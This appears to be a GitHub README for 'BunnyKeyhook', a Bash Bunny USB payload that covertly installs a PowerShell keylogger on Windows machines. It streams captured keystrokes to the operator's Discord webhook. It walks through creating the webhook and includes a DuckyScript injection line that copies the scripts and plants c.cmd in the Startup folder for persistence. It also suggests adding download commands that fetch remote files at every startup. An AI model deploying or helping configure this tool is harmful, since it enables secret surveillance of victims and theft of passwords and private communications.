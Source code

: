 # BunnyKeyhook
> Chris Taylor [Blue Cosmo]
---

```
      :::::::::  :::    ::: ::::    ::: ::::    ::: :::   ::: :::    ::: :::::::::: :::   ::: :::    :::  ::::::::   ::::::::  :::    ::: 
     :+:    :+: :+:    :+: :+:+:   :+: :+:+:   :+: :+:   :+: :+:   :+:  :+:        :+:   :+: :+:    :+: :+:    :+: :+:    :+: :+:   :+:   
    +:+    +:+ +:+    +:+ :+:+:+  +:+ :+:+:+  +:+  +:+ +:+  +:+  +:+   +:+         +:+ +:+  +:+    +:+ +:+    +:+ +:+    +:+ +:+  +:+     
   +#++:++#+  +#+    +:+ +#+ +:+ +#+ +#+ +:+ +#+   +#++:   +#++:++    +#++:++#     +#++:   +#++:++#++ +#+    +:+ +#+    +:+ +#++:++       
  +#+    +#+ +#+    +#+ +#+  +#+#+# +#+  +#+#+#    +#+    +#+  +#+   +#+           +#+    +#+    +#+ +#+    +#+ +#+    +#+ +#+  +#+       
 #+#    #+# #+#    #+# #+#   #+#+# #+#   #+#+#    #+#    #+#   #+#  #+#           #+#    #+#    #+# #+#    #+# #+#    #+# #+#   #+#       
#########   ########  ###    #### ###    ####    ###    ###    ### ##########    ###    ###    ###  ########   ########  ###    ###       
```

## Overview:
BunnyKeyhook is a BashBunny payload that uses PowerShell to log keystrokes. It will send the logs to you via discord. The keylogger almost gives you a "live feed" of their keystrokes through discord. However, you can tweak the timing to get the logs sent to you quick
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will execute *p.ps1* every minue
    - this can be changed to a preferred delay
- *uninstaller.cmd* uninstalls the payload from the target computer

## Resources:
- [YouTube Video](https://youtu.be/U74QqEa4GRc)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Windows Target

## Download:
```bash
svn checkout https://github.com/CosmodiumCS/payloads/trunk/bashbunny/BunnyKeyhook
```

## Instructions:
**Create Discord Webhook**
1. create a discord server by clicking the plus button in the bottom left

![Create Server](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/create-server.png)

2. go into the `integrations` section in the server's settings
3. click `Webhooks`
![Integrations](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/integrations.png)

4. create a new webhook by clicking `New Webhook`
5. click `Copy Webhook URL` to copy the webhook URL
![Webhook](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/webhook.png)

**Set-Up/Installation**
1. in line 5 of *p.ps1*, replace `DISCORDWEBHOOK` with the webhook URL 
```powershell
$webhook = "DISCORDWEBHOOK"
```
2. in line 17 of *duckyscript.txt*, change `'BashBunny'` to the name of your Bash Bunny
3. in line 17 *duckyscript.txt*, change `switch1` to switch position that stores the paylaod
    - make sure to replace *all* appearances of `switch1` if you decide to change 
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\l.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```

## Log Sending Delay
Changing the delay between log sends
1. in line 12 of *l.ps1*, change `60` to your preferred number of seconds
```powershell
Start-Sleep 60
```

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
